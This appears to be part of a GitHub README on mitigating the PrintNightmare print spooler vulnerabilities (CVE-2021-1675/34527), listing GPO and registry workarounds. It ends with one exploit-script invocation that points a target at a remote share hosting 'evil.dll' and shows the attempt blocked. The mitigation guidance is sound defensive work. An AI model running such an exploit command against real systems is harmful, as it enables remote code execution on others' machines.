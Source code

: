 Thanks to [Benjamin Delpy](https://twitter.com/gentilkiwi/status/1412424077655085072/photo/1), there is an updated flow chart on the exploitability of this issue to determine if your systems are likely vulnerable.

![](img/spoolerFlow.png)

## Fixes Shown in Flow Chart Above
1. GPO: `Security Settings -> System Services -> Print Spooler -> Disable`
   1. Registry: `HKLM\SYSTEM\CurrentControlSet\Services\Spooler\Start` = 4
2. GPO: `Computer Configuration -> Administrative Templates -> Printers -> Allow Print Spooler to accept client connections - > Disable`
   1. Registry: `HKLM\Software\Policies\Microsoft\Windows NT\Printers\RegisterSpoolerRemoteRpcEndPoint` = 2
3. GPO: `Printers -> Point and Print Restrictions -> Security Prompts -> When installing drivers for a new connection -> Show warning and elevation prompt`
   1. Registry: `HKLM\Software\Policies\Microsoft\Windows NT\Printers\PointAndPrint` = 0
4. Registry: `HKLM\SOFTWARE\Microsoft\Windows\CurrrentVersion\Policies\System\EnableLUA` = 1

# Workaround Fix
The patch released by Microsoft in June 2021 does patch CVE-2021-1675 but it does not unfortunately fix the issue known as PrintNighmare(CVE-2021-34527), therefore a workaround fix can be applied by disabling the printer spooler service. Here's how to do it on both GPO and PowerShell. It has been confirmed that the GPO fixes both the MS-RPRN RpcAddPrinterDriverEx function & Win32 AddPrinterDriverEx function that SharpPrintNightmare uses. 

## GPO
The following GPO can be set to deny client connections to the spooler, which is a potential work around where disabling the spooler service altogether might not be an option. This has been tested against domain controllers and endpoints(W7/W10) in a lab environment and users can still add/remove printers and print however it stops the exploit from working. Note: It is also understood that this GPO also fixes[ CVE-2021-34527 as noted in Microsoft's vulnerability page](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-34527).

`Computer Configuration -> Administrative Templates -> Printers -> Allow Print Spooler to accept client connections`
set this to Disabled:

![](img/2021-06-30%2021_04_22-Window.png)

Then restart the spooler service on the affected host. All going well the exploit will be denied access:

```python
./CVE-2021-1675.py lares.labs/lowpriv@192.168.1.157 '\\certer.lares.labs\share\evil.dll'                                                                                    1 ⨯
Password:
[*] Try 1...
[*] Connecting to ncacn_np:192.168.1.157[\PIPE\spoolss]
[-] Connection Failed
```
